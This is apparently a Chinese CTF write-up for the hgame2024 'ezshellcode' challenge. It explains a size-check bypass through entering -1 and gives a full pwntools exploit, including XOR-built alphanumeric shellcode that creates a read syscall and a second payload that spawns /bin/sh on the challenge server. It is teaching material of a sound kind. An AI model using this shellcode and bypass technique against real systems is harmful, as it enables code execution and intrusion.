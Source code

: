 ```yaml
---
title: hgame2024 week1 - ezshellcode
date: 2024/2/5 19:13:00
tags:
    - shellcode
thumbnail: /assets/hgame2024/registers.png
excerpt: 通过输入-1绕过大小限制，利用异或和寄存器控制实现shellcode注入并打开shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

看似被size限制了大小，实际上在read的时候size是uint64_t，因此输入-1可以绕过size的问题；
但是题目还限制了输入的字符，考虑用异或和pop、push来控制寄存器和syscall(0x0f05)

先观察一下寄存器：
![regs](/assets/hgame2024/registers.png)

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x1456)')
    else:
        sh = remote('47.100.139.115', 31258)

    sh.recvuntil(b':')
    sh.sendline(b'-1') # size is ulong
    sh.recvuntil(b':')

    # payload 1, make read syscall to input unlimited shellcode
    code = '''
    xor byte ptr [rax + 0x36], bl
    xor bl, byte ptr [rax + 0x36]
    xor bl, byte ptr [rax + 0x33]
    xor byte ptr [rax + 0x31], bl
    xor byte ptr [rax + 0x32], bl
    push rdi
    pop rax
    push rsi
    pop rdx
    '''
    shc = asm(code)
    shc += b'PX'*15 + b'KAD'
    sh.send(shc)

    # payload 2, open shell
    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    shc = b'0'*0x33 + shc # align with the next byte to be executed
    sh.send(shc)

    sh.interactive()
```

## shellcode详解

接下来是对第一段shellcode的解释

```as
xor byte ptr [rax + 0x36], bl ; 0X6
xor bl, byte ptr [rax + 0x36] ; 2X6 zero out bl
xor bl, byte ptr [rax + 0x33] ; 2X3 clone intermediate value
xor byte ptr [rax + 0x31], bl ; 0X1 make 0x0f
xor byte ptr [rax + 0x32], bl ; 0X2 make 0x05
push rdi ; W
pop rax  ; X zero out rax
push rsi ; V
pop rdx  ; Z sufficient bytes to read

push rax ; P
pop rax  ; X *15 fill up shellcode until the size reached 0x30

syscall  ; KA; will be xored to 0x0f05
?        ; D ; the intermediate value to make syscall

?        ; a byte at +0x36, will be used to store bl
```
